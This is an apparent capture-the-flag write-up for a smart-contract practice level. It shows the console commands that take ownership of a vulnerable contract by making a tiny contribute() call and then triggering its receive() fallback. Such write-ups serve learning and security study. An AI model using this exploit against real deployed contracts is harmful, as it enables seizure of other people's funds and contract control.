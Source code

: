 Can either gain ownership through contribute() function, in which case I require over 100 Ether (takes too long).
Or I can gain ownership by exploiting the Fallback function recieve(), which runs upon funds entering the contract without calldata.

### Steps

Check who is owner.
`contract.owner()`

I need to be a contributer. So I'll send less than 0.001 Eth to contribute function.
`contract.contribute({value: web3.toWei('0.0009')})`

Check I am a contributer.
`contract.getContribution().then(v=>v.toString())`

Now I just need to trigger the recieve() fallback.
`contract.sendTransaction({value: web3.toWei('0.0001')})`

Check I am now owner.
`contract.owner()`
`player`

